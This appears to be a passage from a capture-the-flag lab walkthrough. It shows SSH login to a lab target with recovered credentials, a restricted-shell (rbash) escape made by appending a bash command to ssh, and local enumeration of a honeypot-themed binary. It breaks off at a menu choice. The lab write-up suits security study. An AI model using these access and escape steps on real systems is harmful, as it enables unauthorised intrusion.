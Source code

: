 SSH
With the recovered user credentials, we are able to SSH into the target. Before we do, however, we will take a look at the recovered /etc/passwd file to find out more about this user:

kali@kali:~$ cat etc/passwd | grep "296640a3b825115a47b68fc44501c828"
296640a3b825115a47b68fc44501c828:x:1000:1000:,,,:/home/296640a3b825115a47b68fc44501c828:/bin/rbash
kali@kali:~$
We see that the default shell of the user is /bin/rbash, which is a restricted shell. In order to escape this restricted environment, we will append -t "bash --noprofile" to the ssh command:

kali@kali:~$ ssh 296640a3b825115a47b68fc44501c828@192.168.120.164 -t "bash --noprofile"
...
296640a3b825115a47b68fc44501c828@192.168.120.164's password: 
bash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ id
uid=1000(296640a3b825115a47b68fc44501c828) gid=1000(296640a3b825115a47b68fc44501c828) groups=1000(296640a3b825115a47b68fc44501c828)
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
Escalation
Local Enumeration
Something we will quickly discover is that our PATH is not very useful right now:

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ whoami
bash: whoami: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo $PATH
PATH:/home/296640a3b825115a47b68fc44501c828/
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ /bin/whoami
296640a3b825115a47b68fc44501c828
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
We can either fix it or simply use full binary paths when executing programs. In the home directory of the user, we find the following:

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ls
honeypot.decoy  honeypot.decoy.cpp  id  ifconfig  ls  mkdir
...
We will try to run the honeypot.decoy binary:

296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ./honeypot.decoy 
--------------------------------------------------

Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.

Option selected:
...
We are met with this selection, of which we will choose option 5 Launch an AV Scan:
